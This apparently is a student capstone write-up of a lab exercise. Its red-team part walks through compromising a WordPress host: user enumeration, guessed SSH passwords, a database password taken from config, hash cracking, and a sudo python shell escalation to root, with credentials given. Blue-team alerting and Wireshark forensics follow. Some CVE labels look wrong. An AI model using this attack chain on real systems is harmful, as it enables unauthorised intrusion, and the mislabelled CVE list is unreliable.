

## Red Team: Summary of Operations
### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
- Nmap scan results for each machine reveal the below services and OS details:
  - `nmap 192.168.1.110`
  - 
- This scan identifies the services below as potential points of entry:
  - IP 192.168.1.110 List of Exposed Services
    - Port 22 / SSH
    - Port 80 / http
    - Port 111 / rpcbind 
    - Port 139 NetBios
    - Port 445 NetBios
### Critical Vulnerabilities
- The following vulnerabilities were identified on the machine:
  - CVE-2018-1000030 Python privilege escalation
  - CVE-2021-28041 ssh remote login is active at the user level with port 22 being open
  - CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext and it is unsalted
  - CVE-2017-7760 exposed username and weak password which allowed guessing/brute force of password information. User access to the wp-config.php file via nano. This exposed MySQL password
  - CVE02017-8779 Open rpcbind port
  - CVE-2017-15710 Apache https 2.4.10
  - Network Mapping and User Enumeration (WordPress Site)
   
TODO: Include vulnerability scan results to prove the identified vulnerabilities.

### Exploitation
- The Red Team was able to penetrate 192.168.1.110 machine and retrieve the following confidential data:
#### Exploit Used for Flag1
- We plugged in the discovered ip into a web browser, while browsing around, we found `flag1.txt: 9bbcb33e11b80be759c4e844862482d` in the `192.168.1.110/service.html` file while inspecting
  - 
#### Exploit Used for flag2  
- We ran a wpscan command: `wpscan --url http://192.168.1.110/wordpress -eu` against the target machine. This exposed the names of Michael and Steven as users on the site 
  - 
  - 
- Since it was earlier discovered that ssh port 22 is open and we where able to find some users with the wpscan, we tested some password by guessing and we were able to guess Michael password to be michael   
- We ssh into the machine using the following command and information
```
  ssh michael@192.168.1.110
  Username: michael
  Password: michael
```
  - 
- We successfully ssh into target machine with the informatiom and we were able to locate `flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c`  int /var/www/ path 
  - 
#### Exploit Used for Flag3
- While in the target machine, we found the database password while looking through the `wp-config.php` file in `/var/www/html` path. The password is `R@v3nSecurity`
  - 
- Since we were able to obtain the database password, we signed into the database by running this command: `mysql -u root -p wordpress`
- We moved through the database by using this commands
```
-> show databases; 
-> use wordpress 
-> show tables; 
-> select * from wp_posts
-> select * from wp_users
```
  - 
  - 

- Searching through the databasee, i found `flag3.txt: afc01ab56b50591e7dccf93122770cd2` in wp_posts
  - 
#### Exploit Used for Flag4
- We found the wp_users file to be very insteresting. we looked into the file with this command: `select * from wp_users` and we found some interesting hashes with the user's name in there
  - 
- We already know michael password, and we decided to crack steven's hash using John to see if we can obtain steven's password
- Steven's hash was saved as wp_hashes.txt, Running the command: `John wp_hashes.txt`. We dicovered steven's pssword to be `pink84`
  - 
_ We ssh into the target machine using the following command and credentials
```
  ssh steven@192.168.1.110
  Username: steven
  Password: pink84
```
  - 
- Running command: `sudo -l`, we were able to figure out steven's privileges. We found out steven can run python commands. This is a great information because we can use a python command to escalate to root priviledge. 
- Running this python command: `sudo python -c "import pty;pty.spawn("/bin/bash"):'` as user steven, authomatically escalated steven to root and we moved around as root and found `flag4.txt: 715dea6c055b9fe3337544932f2941ce`
  - 

## Blue Team: Summary of Operations
### Table of Contents
- Network Topology
- Description of Targets
- Monitoring the Targets
- Patterns of Traffic & Behavior
- Suggestions for Going Further

### Network Topology
- The following machines were identified on the network:
  - Hypervisor / Host Machine (Not a VM)
    - Operating System: Microsoft Windows
    - Purpose: Hypervisor / Gateway
    - IP Address: 192.168.1.1

- ELK
  - Operating System: Linux
  - Purpose: Elasticsearch, Logstash, Kibana Server
  - IP Address: 192.168.1.100

- Capstone
  - Operating System: Linux
  - Purpose: Basic HTTP Server (this is a red herring)
  - IP Address: 192.168.1.105

- Kali
  - Operating System: Linux
  - Purpose: Attacking Machine
  - IP Address: 192.168.1.90

- Apache Web Server
  - Operating System: Linux
  - Purpose: Target Machine
  - IP Address: 192.168.1.110
- 
### Description of Targets
- The target of this attack was: Apache Web Server IP Address: 192.168.1.110.
- The Apache web server has SSH enabled, so ports 80 and 22 are possible ports of entry for attackers. As such, the following alerts have been implemented:

### Monitoring the Targets
Traffic to these services should be carefully monitored. To this end, we have implemented the alerts below:

#### Excessive HTTP Errors Alert 
- Excessive HTTP Errors Alertis implemented as follows:
  - Metric: Packetbeat - `http.response.status_code`
  - Threshold: WHEN count() GROUPED OVER top 5 'http.response.status_code' IS ABOVE 400 FOR THE LAST 5 minutes
  - 
  - Vulnerability Mitigated: By creating an alert, the security team can identify attacks & block the ip, change the password, & close or filter the port 22
  - Reliability: No, this alert does not generate a lot of false positives. This alert is highly reliable in identifying brute force attacks.


#### HTTP Request Size Monitor Alert
- HTTP Request Size Monitor Alert is implemented as follows:
  - Metric: Packetbeat `http.request.bytes`
  - Threshold: WHEN sum() of http.request.bytes OVER all documents IS ABOVE 3500 FOR THE LAST 1 minute
  - 
  - Vulnerability Mitigated: By controlling the number of http request size through a filter it protects against DDOS attacks
  - Reliability: No, this alert doesn't generate a lot of false positives bc it is reliable. Reliability is medium


#### CPU Usage Monitor Alert
- CPU Usage Monitor Alert is implemented as follows:
  - Metric: Metricbeat `system.process.cpu.total.pct`
  - Threshold: WHEN max() OF system.process.cpu.total.pct OVER all documents IS ABOVE 0.5 FOR THE LAST 5 minutes
  - 
  - Vulnerability Mitigated: By controlling the CPU usage percentage at 50%, it will trigger a memory dump of stored information is generated
  - Reliability: Yes this alert can generate a lot of false positives bc the cpu can spike even if there is not an attack. Reliability is low

- 

### Suggestions for Going Further
- Each alert above pertains to a specific vulnerability/exploit. Recall that alerts only detect malicious behavior, but do not stop it. For each vulnerability/exploit identified by the alerts above, we suggest few patches to the network.
- The logs and alerts generated during the assessment suggest that this network is susceptible to several active threats, identified by the alerts above. In addition to watching for occurrences of such threats, the network should be hardened against them. The Blue Team suggests that IT implement the fixes below to protect the network:

  - Vulnerability 1- Excessive HTTP Errors
    - Patch: Require a stronger password policy in the user account settings. Update the account password policy in Windows group policy through /etc/security/pwquality.conf & through /etc/security/pwquality.conf in Linux
    - Why It Works: By having a strong password it will be almost impossible to guess or brute force

  - Vulnerability 2 - HTTP Request Size Monitor
    - Patch: Use advanced intrusion prevention and threat management systems, which combine firewalls, VPN, anti-spam, content filtering, load balancing, and other layers of DDoS defense techniques. Together they enable constant and consistent network protection to prevent a DDoS attack from happening. This includes everything from identifying possible traffic inconsistencies with the highest level of precision in blocking the attack
    - Why It Works: Given the complexity of DDoS attacks, there’s hardly a way to defend against them without appropriate systems to identify anomalies in traffic and provide instant response. Backed by secure infrastructure and a battle-plan, such systems can minimize the threat.

  - Vulnerability 3 - CPU Usage Monitor
    - Patch: Use Host Instrusion Prevention System to identify DOS attack
    - Why It Works: This stops malware by monitoring the behavior of code
['Network Security Presentation'](https://docs.google.com/presentation/d/1uIkRMx_uSOaA3xeOu2Xa5rFT23rc4MlHDhU7_XxLK_M/edit?usp=sharing)

## Network Forensic Analysis Report
### Time Thieves
- At least two users on the network have been wasting time on YouTube. Usually, IT wouldn't pay much mind to this behavior, but it seems these people have created their own web server on the corporate network. So far, Security knows the following about these time thieves:
  - They have set up an Active Directory network.
  - They are constantly watching videos on YouTube.
  - Their IP addresses are somewhere in the range 10.6.12.0/24
- By Inspecting the traffic captured in ['pcap file'](https://drive.google.com/file/d/1ggMVl1t_DZfw1WB93FO6hMLe5Ffqz40F/view) we found the following evidence. We ran the curl command to get the pcap into the wire shark `curl -L -o pcap.pcap http://tinyurl.com/yaajh8o8`
1. The domain name of the users' custom site is frank-n-ted-dc.frank-n-ted.com. We found this information by running the this query: `ip.src == 10.6.12.0/24` in the filter
  - 
2. Using this query: `ip.src == 10.6.12.0/24`, the IP address of the Domain Controller (DC) of the AD network is `10.6.12.12`
 - 

3. A malware was downloaded into the 10.6.12.203 machine. We ran the query `ip.src == 10.6.12.203` and found the suspicious http get file named `june11.dll` and exported objects http stream and saved the file.
 -   
 - 

4. After saving we put it into virustotal.com and found the malware to be `Trojan.Mint.Zamg.O`
 - 

5. The virus is Trojan.Mint.Zamg.O and it is classified as Ad-Ware
  - 

### Vulnerable Windows Machine
- The Security team received reports of an infected Windows host on the network. They know the following:
  - Machines in the network live in the range 172.16.4.0/24.
  - The domain mind-hammer.net is associated with the infected computer.
  - The DC for this network lives at 172.16.4.4 and is named Mind-Hammer-DC.
  - The network has standard gateway and broadcast addresses
- By Inspecting the traffic captured in ['pcap file'](https://drive.google.com/file/d/1ggMVl1t_DZfw1WB93FO6hMLe5Ffqz40F/view) we found the following information
- We found few information on this website ['Palo alto'](https://unit42.paloaltonetworks.com/using-wireshark-identifying-hosts-and-users/) which helped in getting the necessary information

1. The following information about the infected Windows machine are listed below:
```    
    - Host name: Rotterdam-PC.mindhammer.net
    - IP address: 172.16.4.205     
    - MAC address: LenovoEM_b0:63:a4 (00:59:07:b0:63:a4)
```
- We found the above information by running this query `bootp` and looking into the dhcp information
  - 

2. The username of the Windows user whose computer is infected matthijs.devries. We found this information by running the query `ip.addr == 172.16.4.205 && kerberos.CNameString`
  - 
  
3. To find the IP addresses used in the actual infection traffic, We re-ran the kerberos command. We pulled up the statistics and went into conversations to sort out the packets and chose the 2 IP address with the highest packets
```  
  - 185.243.115.84
  - 166.62.111.64
```
  - The screenshot shows that alot of communication is going on between the infected machine 172.16.4.205 and these IPs 185.243.115.84, 166.62.111.64
  - 

4. We retrieved the desktop background of the Windows host by exporting the http traffic as an object.  We went into `files and export as object`. We searched for `img` and saved the result and we were able to view the image
- 
- 

### Illegal Downloads
- IT was informed that some users are torrenting on the network. The Security team does not forbid the use of torrents for legitimate purposes, such as downloading operating systems. However, they have a strict policy against copyright infringement.
- IT shared the following about the torrent activity:
  - The machines using torrents live in the range 10.0.0.0/24 and are clients of an AD domain.
  - The DC of this domain lives at 10.0.0.2 and is named DogOfTheYear-DC.
  - The DC is associated with the domain dogoftheyear.net.

1. The following information is about the machine with IP address 10.0.0.201:
    - MAC address: Msi_18:66:c8 (00:16:17:18:66:c8) (Using `bootp` or `ip.addr == 10.0.0.201 && dhcp` as query)
    - 
    - Windows username: elmer.blanco (Using Keberos query: `ip.addr == 10.0.0.201 && kerberos.CNameString` as query)
    - 
    - OS version: Windows NT 10.0; Win64; x64 (Using this query: `ip.addr == 10.0.0.201 && http.request` as query)
    - 
2. To find the torrent file the user downloaded, we used this query: `ip.addr == 10.0.0.201 && (http.request.uri contains ".torrent")` to find out more about URI that contains torrent
 - 
 - By exporting the http file. we searched for the possible torrent file downloaded and we found the http application/x-bitorrent link - btdownload.php?type=torrent&file=Betty_Boop_Rhythm_on_the_Reservation.avi.torrent
 - 
- We found a jpg files with similar name to our URI information and we saved this file to view the content
  - 
- This content shows that some contents have been downloaded and this maybe be a potential copyright infringement 
  -  
  - [BettyBoop_video](https://archive.org/details/BettyBoopTheater11)

